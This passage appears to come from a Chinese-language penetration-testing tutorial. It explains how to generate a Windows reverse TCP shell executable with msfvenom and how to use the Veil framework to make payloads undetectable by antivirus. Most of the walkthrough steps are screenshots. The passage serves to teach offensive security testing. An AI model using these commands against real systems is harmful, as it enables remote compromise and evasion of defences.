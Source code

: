 ![](../images/00211.jpeg)

您可以通过键入以下内容来检查可用的有效负载格式：

```
# msfvenom --help-formats
```

![](../images/00212.jpeg)

例如，如果要生成 Windows 负载，请输入以下内容：

```
# msfvenom -p windows/shell/reverse_tcp LHOST=[YourIPaddress]
```

```
LPORT=8080  - f exe > [A_Specific_PATH]/  payload.exe
```

![](../images/00213.jpeg)

# 使用 Veil 框架绕过防病毒软件

作为渗透测试人员，请始终记住，您正在模拟真实世界的攻击，而在真实世界中，黑客正试图使用多种技术绕过防病毒保护。**面纱框架**是避免有效负载检测的绝佳工具。要安装 Veil 3.0，您需要从其官方 GitHub 源代码[下载它 https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil) ：

```
# git clone https://github.com/Veil-Framework/Veil
```

![](../images/00214.jpeg)

现在，您只需从辅助主菜单中选择一项任务：

![](../images/00215.gif)

要生成有效负载，请选择`list`，然后键入`use 1`：

![](../images/00216.gif)

要列出所有可用的有效载荷，请像往常一样使用`list`：

![](../images/00217.gif)

使用`use`命令选择有效载荷：

![](../images/00218.gif)

输入`generate`以创建有效负载：

![](../images/00219.gif)

完成这些选项，您将生成一个不可检测的有效负载，如下所示：

![](../images/00220.gif)
